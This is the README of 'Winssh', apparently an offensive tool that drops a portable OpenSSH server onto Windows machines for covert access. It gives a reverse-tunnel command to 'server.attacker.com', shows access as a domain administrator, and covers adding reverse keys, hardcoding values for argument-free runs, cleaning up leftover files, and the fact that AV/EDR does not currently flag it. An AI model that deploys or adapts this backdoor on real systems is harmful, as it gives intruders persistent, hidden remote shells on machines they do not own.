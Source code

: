 # Winssh

Spawns a ssh server on windows. No installation required. Based on https://github.com/PowerShell/Win32-OpenSSH/.

## Usage

When launched without arguments, `winssh.exe` default to start an OpenSSH server on port 127.0.0.1:8022.
You can specify a port using:
```
winssh.exe --port <port>
```

You can also specify a server and port to connect back to using:

```
winssh.exe --tunnel-server server.attacker.com --tunnel-port 2222
```

Then on your machine, you can just connect to the ssh port you forwarded:

```
ssh -i files/key dummy@localhost -p 8022
WORK-JUNON\administrator

ssh -i files/key 'WORK-JUNON\administrator'@localhost -p 8022
work-junon\administrator@S021M015 C:\Users\administrator.WORK-JUNON>
```
Note that the server banner is the username we need to use to connect!

On every build new keys will be generated. After starting the server you can use the "key" from the files directory. The key `key_reverse` from the files directory is used to connect back to the remote server (if specified) so you will need to add it to your authorized_keys file, e.g.:

```
cat files/reverse_key.pub >> /home/tunnel/.ssh/authorized_keys
```

## Compile

```
rustup target add x86_64-pc-windows-gnu
rustup toolchain install stable-x86_64-pc-windows-gnu
```

Windows:
```
cargo build --release --target x86_64-pc-windows-gnu
```

To reduce the filesize further, you can strip the binaries with `strip`.


## Other

If you want to run without any arguments modify the source to hardcode the default values for tunnel-server and both ports. To clean up you want to delete the temp directory in `\windows\temp` (random name) that has the ssh files.

This is not opsec safe - it runs various powershell commands and leaves files in \temp. However it's currently not being flagged by AV/EDR. If you need it opsec safe you'll have to make some modifications.